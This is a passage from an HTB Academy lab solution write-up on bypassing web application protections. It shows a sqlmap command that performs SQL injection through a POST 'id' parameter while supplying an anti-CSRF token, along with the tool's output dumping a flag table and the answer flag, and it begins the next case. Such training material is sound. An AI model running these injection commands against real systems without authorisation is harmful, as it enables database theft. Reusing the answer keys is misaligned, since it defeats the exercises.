 ![[HTB Solutions/CBBH/z. images/0eed4c332ecad59c1907a29dd2176842_MD5.jpg]]

Students need to click on the "Submit" button, then open the Network Tab to view the request form data after selecting the `POST` request to "case8.php" that includes the `anti-CSRF` token name and value:

![[HTB Solutions/CBBH/z. images/501fda2d529798988361cac8939d8a33_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case8.php?' --data 'id=1&t0ken=UDWvZvcqUsowsv6b5MhaSojBVJjkW0DVcNKXnZ2Fjw' --csrf-token=t0ken --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case8.php?' --data 'id=1&t0ken=UDWvZvcqUsowsv6b5MhaSojBVJjkW0DVcNKXnZ2Fjw' --csrf-token=t0ken --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+
```

Answer: `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`

# Bypassing Web Application Protections

## Question 2

### "What's the contents of table flag9? (Case #9)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #9" to notice that they need to exploit the `POST` parameter `id`, while accounting for the unique `uid`:
